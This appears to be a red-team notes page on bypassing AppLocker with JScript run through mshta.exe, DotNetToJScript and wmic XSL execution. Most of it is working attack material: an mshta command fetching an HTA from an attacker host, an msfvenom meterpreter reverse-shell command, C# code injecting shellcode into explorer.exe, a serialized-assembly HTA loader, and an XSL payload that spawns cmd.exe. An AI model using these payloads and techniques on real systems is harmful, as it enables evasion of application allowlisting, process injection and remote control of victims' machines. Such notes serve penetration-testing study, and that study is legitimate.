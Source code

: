 ```yaml
---
title: Jscript AppLocker bypass
tags:
  - breach
  - operations
  - applocker
  - bypass
  - jscript
  - allowlist
  - whitelist
---
```


## Microsoft HTML Applications

**Microsoft HTML Applications (MSHTA)** is a vector for client-side attacks to
execute **Jscript** payloads, allowing us to execute `.hta` files with the
`mshta.exe` application. Here's an example payload so we can better understand
its structure:

```html
<html>
  <head>
    <script language="JScript">
      var shell = new ActiveXObject("WScript.Shell")
      var res = shell.Run("cmd.exe")
    </script>
  </head>
  <body>
    <script language="JScript">
      self.close()
    </script>
  </body>
</html>
```

Given the structure of this payload, we can see how we would go about smuggling
our malicious Jscript. Here's an example invocation of this payload using
`mshta.exe`:

```powershell
$lHost = ${LHOST}
$lPort = ${LPORT}
. (Get-Command -Name "mshta.exe").Source "http://${lHost}:${lPort}/shell.hta"
```

### MSHTA and SharpShooter

Using [SharpShooter](https://github.com/X0RW3LL/SharpShooter/tree/master) we can
generate an `.hta` payload to deliver a `meterpreter` reverse shell payload. We
invoke the following to generate our `meterpreter` reverse shell payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=${LPORT} -f raw -o shell.txt
```

And we can generate our **SharpShooter** `.hta` payload by invoking the
following:

```bash
python ~/opt/SharpShooter/SharpShooter.py --payload hta --dotnetver 4 --stageless --rawscfile shell.txt --output shell
```

### MSHTA and DotNetToJScript

Using [DotNetToJscript](https://github.com/tyranid/DotNetToJScript), we can
generate an `.hta` payload to deliver a `meterpreter` reverse shell payload that
uses process injection. We start by building a **.NET Framework** assembly with
the following C# .NET code:

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(
    uint processAccess,
    bool bInheritHandle,
    int processId
    );

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(
        IntPtr hProcess,
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect
    );

    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberOfBytesWritten
    );

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(
        IntPtr hProcess,
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        IntPtr lpThreadId
    );

    public TestClass()
    {
        int explorerId = Process.GetProcessesByName("explorer")[0].Id;
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, explorerId);
        IntPtr addr =
            VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        byte[] buf = new byte[854] {
            0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xcc, 0x00, 0x00, 0x00, 0x41,
            // ...
            0xc2, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5
        };
        _ = WriteProcessMemory(hProcess, addr, buf, buf.Length, out _);
        _ = CreateRemoteThread(
            hProcess,
            IntPtr.Zero,
            0,
            addr,
            IntPtr.Zero,
            0,
            IntPtr.Zero
        );
    }
}
```

We invoke the following to use **DotNetToJScript** to generate a **JScript**
payload that will invoke the code within our process injection assembly:

```powershell
DotNetToJScript.exe --lang=JScript -o="pwn.js" "ExampleAssembly.dll"
```

We can test that our `pwn.js` payload works by invoking:

```powershell
. (Get-Command -Name "wscript.exe").Source .\pwn.js
```

To reliably execute our **JScript** payload we use
[uglify-js](https://www.npmjs.com/package/uglify-js) to minify the payload -
here's an example invocation:

```bash
uglifyjs ./pwn.js > uglypwn.js
```

Finally, we construct our malicious `.hta` payload that contains our minified
**DotNetToJScript** **JScript** payload. This final payload will execute using
**MSHTA**, delivering a **JScript** payload that loads our assembly to conduct
process injection and execute a `meterpreter` reverse shell payload:

<!-- prettier-ignore-start -->
```html
<HTML><HEAD></HEAD><BODY><script language="javascript">function setversion(){}function debug(s){}function base64ToStream(b){var enc=new ActiveXObject("System.Text.ASCIIEncoding");var length=enc.GetByteCount_2(b);var ba=enc.GetBytes_4(b);var transform=new ActiveXObject("System.Security.Cryptography.FromBase64Transform");ba=transform.TransformFinalBlock(ba,0,length);var ms=new ActiveXObject("System.IO.MemoryStream");ms.Write(ba,0,length/4*3);ms.Position=0;return ms}var serialized_obj="${INSERT_SERIALIZED_ASSEMBLY_HERE}";var entry_class="TestClass";try{setversion();var stm=base64ToStream(serialized_obj);var fmt=new ActiveXObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter");var al=new ActiveXObject("System.Collections.ArrayList");var d=fmt.Deserialize_2(stm);al.Add(undefined);var o=d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class)}catch(e){debug(e.message)}</script><script language="vbscript">self.close</script></body></html>
```
<!-- prettier-ignore-end -->

## XSL

We can also gain arbitrary **JScript** code executing using **Extensible
Stylesheet Language (XSL)** documents. Here's an example `.xsl` document to gain
JScript code execution:

```xml
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("cmd.exe");
		]]>
	</ms:script>
</stylesheet>
```

We can execute this payload using the **Windows Management Instrumentation
(WMI)** command line application, `wmic`. Here's an example invocation to
execute our `.xsl` file:

```powershell
Start-Process `
	-FilePath (Get-Command -Name "wmic").Source `
	-ArgumentList @("os", "get", '/format:"C:\Tools\shell.xsl"')
```
